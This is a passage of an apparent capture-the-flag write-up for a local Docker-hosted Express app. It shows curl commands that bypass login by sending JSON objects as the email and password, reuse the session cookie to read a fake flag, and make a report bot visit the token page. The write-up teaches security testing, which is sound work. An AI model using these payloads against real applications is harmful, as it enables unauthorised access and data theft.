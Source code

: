 In this case, we are interested in the `distrib_app_1` container. Let's `exec` into it using `docker exec -it distrib_app_1 bash`.

Let's try making a request to the `GET /token` endpoint using curl:

```bash
└─$ docker exec -it distrib_app_1 bash
inmate@455383c8aaf4:~/app$ curl -i -X POST --url "http://localhost:8000/login" -H "Content-Type: application/json" --data '{"email":{"email":1}, "password":{"password":1}}'
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Security-Policy: default-src 'self'; img-src data: *; object-src 'none'; base-uri 'none'; frame-ancestors 'none'
Cross-Origin-Opener-Policy: same-origin
Content-Type: application/json; charset=utf-8
Content-Length: 21
ETag: W/"15-uFFjCr0SbbbFb/CsC0M2sF++swo"
Set-Cookie: connect.sid=s%3AForqUI9QC1EH4IIG7ssnAddye3ZcLN1y.NYDgLr4jqh8UFtdOorml%2Bv2CFFhzHvZ3LQ8%2B5%2FnzTjI; Path=/; Expires=Mon, 12 Sep 2022 19:00:24 GMT; HttpOnly
Date: Sun, 11 Sep 2022 19:00:24 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{"message":"Success"}
```

```bash
inmate@455383c8aaf4:~/app$ curl --url "http://localhost:8000/token" -H "Cookie: connect.sid=s%3AForqUI9QC1EH4IIG7ssnAddye3ZcLN1y.NYDgLr4jqh8UFtdOorml%2Bv2CFFhzHvZ3LQ8%2B5%2FnzTjI;"
#### Omitted ####
<p>Your token is TISC{0:1:2:3:4:5:6:6:8:9}</p></p></div>
```

Woah woah woah, our (fake) flag is actually in the response! So it seems like a potential attack pattern would be to:
- Using the `POST /do-report`, make a request to `GET /token`

Let's go ahead and make a request to `POST /do-report` from within the docker container, while using that authenticated cookie.

```bash
inmate@455383c8aaf4:~/app$ curl -X POST --url "http://localhost:8000/do-report" -H "Cookie: connect.sid=s%3AForqUI9QC1EH4IIG7ssnAddye3ZcLN1y.NYDgLr4jqh8UFtdOorml%2Bv2CFFhzHvZ3LQ8%2B5%2FnzTjI;" -H "Content-Type: application/json" -d '{"url":"http://localhost:8000/token"}'
OK
```

Huh.... we only get one `OK`, which is not exactly very useful. Let's look at the logs of the container:

```
└─$ docker logs --follow distrib_app_1
[*] Listening on port 8000
[INFO] Starting browser
[*] Visiting http://localhost:8000/token
[*] Done visiting http://localhost:8000/token

```
